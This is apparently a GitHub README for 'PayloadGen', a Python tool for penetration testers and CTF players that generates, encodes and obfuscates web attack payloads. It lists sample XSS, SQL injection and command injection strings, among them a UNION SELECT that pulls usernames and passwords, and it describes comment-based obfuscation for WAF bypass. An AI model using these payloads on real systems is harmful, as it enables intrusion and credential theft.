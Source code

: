 # 🚀 PayloadGen – Web Payload Generator Tool

A modular offensive security tool to generate, encode, obfuscate, and export web attack payloads like **XSS**, **SQL Injection**, and **Command Injection**. Perfect for security researchers, penetration testers, and CTF enthusiasts.

---

## ✨ Features

- 🔍 Payload generation for:
  - Cross-Site Scripting (XSS)
  - SQL Injection (SQLi)
  - Command Injection (CMDi)
- 🔐 Encode payloads:
  - URL encoding
  - Base64
  - Hexadecimal
  - Unicode escape
- 🛡️ Obfuscate payloads using comment injection (`/**/`)
- 📋 Copy payloads directly to clipboard (`--clip`)
- 📄 Export payloads to structured `output.json`
- 🧩 Fully modular and extensible codebase
- 🐧 Works on Kali Linux, Parrot OS, and any Linux with Python 3

---

## 📁 Folder Structure

\`\`\`
payloadgen/
├── modules/
│   ├── xss.py                # XSS payloads
│   ├── sqli.py               # SQLi payloads
│   ├── command_injection.py  # CMDi payloads
│   └── encoder.py            # Encoding module
│
├── utils/
│   └── obfuscator.py         # Obfuscation module
│
├── samples/
│   ├── xss_payloads.json
│   ├── sqli_payloads.json
│   └── cmd_payloads.json
│
├── main.py                   # CLI entrypoint
├── requirements.txt
├── README.md
└── screenshots/demo.png
\`\`\`

---

## 🔧 Usage Examples

\`\`\`bash
# Basic payload generation
python3 main.py --xss
python3 main.py --sqli
python3 main.py --cmd

# Encode payloads
python3 main.py --xss --encode=url
python3 main.py --sqli --encode=base64
python3 main.py --cmd --encode=unicode

# Obfuscate payloads
python3 main.py --xss --obfuscate

# Encode + Obfuscate + Export
python3 main.py --cmd --encode=hex --obfuscate --export

# Copy first payload to clipboard
python3 main.py --xss --clip
\`\`\`

---

## 🐍 Requirements

- Python 3.7+
- Install dependencies safely in a virtual environment:

\`\`\`bash
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
\`\`\`

Content of \`requirements.txt\`:
\`\`\`
pyperclip
\`\`\`

---

## 🧪 Payload Samples

### XSS Payloads:
- \`<script>alert(1)</script>\`
- \`<img src=x onerror=alert(1)>\`
- \`javascript:alert(1)\`
- \`<svg/onload=alert(1)>\`
- \`<iframe srcdoc="<script>alert(1)</script>">\`
- \`<script%00>alert(1)</script>\`

### SQL Injection Payloads:
- \`' UNION SELECT null, username, password FROM users--\`
- \`' OR 1=1 ORDER BY 100--\`
- \`' AND SLEEP(5)--\`
- \`'/**/UNION/**/SELECT/**/NULL--\`
- \`' uNIoN SeLEct null--\`

### Command Injection Payloads:
- \`;ls\`
- \`&& whoami\`
- \`\` \`id\` \`\`
- \`& whoami\` (Windows)
- \`| net user\` (Windows)

---

## 💡 Encoding Types

| Method     | Result Example                        |
|------------|----------------------------------------|
| \`url\`      | %3Cscript%3Ealert(1)%3C%2Fscript%3E     |
| \`base64\`   | PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==    |
| \`hex\`      | 0x3c0x730x630x720x690x700x740x3e...     |
| \`unicode\`  | \\u003c\\u0073\\u0063\\u0072...         |

---

## 🔐 Obfuscation Support

Obfuscates spaces using inline comments (\`/**/\`) for WAF bypass:

\`\`\`bash
python3 main.py --sqli --obfuscate
\`\`\`

Result:
\`\`\`
SELECT/**//*/*/**/FROM/**/users
\`\`\`

---

## 📂 Output Formats

| Output Type  | Description                                |
|--------------|--------------------------------------------|
| Terminal     | Default payload listing                    |
| Clipboard    | First payload copied with \`--clip\`         |
| File         | JSON output saved with \`--export\`          |
| Screenshot   | (optional) for GUI demo or reports         |

Example output file:
\`\`\`json
[
    {
        "type": "Reflected",
        "payload": "%3Cscript%3Ealert(1)%3C%2Fscript%3E"
    }
]
\`\`\`

---

## 📸 Screenshots

Use `xfce4-screenshooter` or `spectacle` to capture CLI:

\`\`\`bash
xfce4-screenshooter -f -s screenshots/
\`\`\`

Screenshot Example:

![demo](screenshots/demo.png)

---

## 👨‍💻 Author

- **Ubaidullah Qureshi**


